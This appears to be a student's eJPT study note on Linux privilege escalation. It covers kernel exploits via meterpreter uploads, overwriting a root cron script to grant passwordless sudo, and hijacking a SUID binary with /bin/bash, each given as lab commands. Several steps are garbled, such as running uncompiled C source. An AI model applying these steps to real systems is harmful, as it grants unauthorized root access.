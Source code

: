 # 21 Linux Privilege Escalation

# Linux Kernel Exploits

Kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.

Privilege escalation on Linux systems will typically follow the following methodology:
- Identifying kernel vulnerabilities.
- Downloading, compiling and transferring kernel exploits onto the target system.

**Tool**
linux-exploit-suggester 
	GitHub https://github.com/The-Z-Labs/linux-exploit-suggester

```shell
meterpreter: sysinfo
meterpreter: getuid
meterpreter: shell
	/bin/bash -i
meterpreter: cd /tmp 
meterpreter: upload /<path-to>/linux-exploit-suggester.sh
meterpreter: shell
	/bin/bash/ -i
	chmod +x linux-exploit-suggester.sh
	./linux-exploit-suggester.sh
www.exploit-db.com -> download selected exploit 
	follow the documentation

meterpreter: upload /<path-to>/payload.c
meterpreter: shell
	/bin/bash -i
	chmod +x payload.c
	./payload.c

sudo apt-get install gcc (gnu c compiler)
```

# Exploiting Misconfigured Cron Jobs

- Linux implements task scheduling through a utility called Cron.
- Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.
- An application, or script that has been configured to be run repeatedly with Cron is know as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches.
- The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created. 
- Cron jobs can also be run as any user on the system, this is very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the "root" user.
- This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.
- In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.

```shell
user: student 
pwd : /home/student
ls -la: message (only root can read)
grep -rnw /usr (typically where find shell scrips) -e "home/student/message"
	/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message (can access here)
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh>
```

# Exploiting SUID Binaries

- In addition to the three main access permissions (read, write and execute), Linux also provides users with specialized permissions that can be utilized in specific situations. One of these access permissions is the SUID (Set Owner User ID) permission.
- When applied, this permissions provides user with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary.
- SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with "root" permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if improperly configured unprivileged users can exploit misconfigurations or vulnerabilities whitin the binary or script to obtain an elevated session.
- This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of out attack will depend on the following factors:
	- Owner of the SUID binary - Given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the "root" user or other privileges users.
	- Access permissions - We will require executable permissions in order to execute the SUID binary.

```shell
-r-x------ 1 root root 8296 Sep 22 2018 greetings
-rwsr-xr-x 1 root root 8344 Sep 22 2018 welcome (note the "s" in owner permission)

file welcome
strings welcome
rm greetings
cp /bin/bash greetings
./welcome
bash
```

#eJPT #cybersecurity 